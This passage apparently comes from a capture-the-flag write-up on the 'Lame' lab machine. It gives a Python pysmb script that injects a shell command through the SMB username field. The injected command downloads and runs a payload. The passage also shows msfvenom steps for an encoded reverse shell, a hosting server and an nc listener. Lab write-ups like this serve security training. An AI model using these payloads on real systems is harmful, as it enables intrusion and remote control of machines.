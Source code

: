 This seems simple enough to test and convert to the following Python:

- **NOTE**: This payload assumes the client has `wget` installed

```Python
from smb.SMBConnection import SMBConnection

payload = "wget http://10.10.14.17:8080/bubba.elf -P /tmp && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &"
username = "/=`nohup " + payload + "`"
conn = SMBConnection(username, '', '', '')
conn.connect('10.10.10.3', 445, timeout=5)
```

This will require installation of the following libraries:

- https://pysmb.readthedocs.io/en/latest/api/smb_SMBConnection.html

```bash
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python3 get-pip.py
python3 -m pip install pysmb
```

Before running the script, generate and host the payload:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 6969
```

Now run the script and catch the shell:

![root1](./lame/root1.png)

Woah! That is already root? That was too easy (lol the name lame). Try harder to find another way... The full `nmap` TCP scan should have finished and has another port & service version in it:

- port 3632 - `distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))`

A quick Google for `distccd v1 exploit` returns the following `nmap` script for CVE-2004-2687:
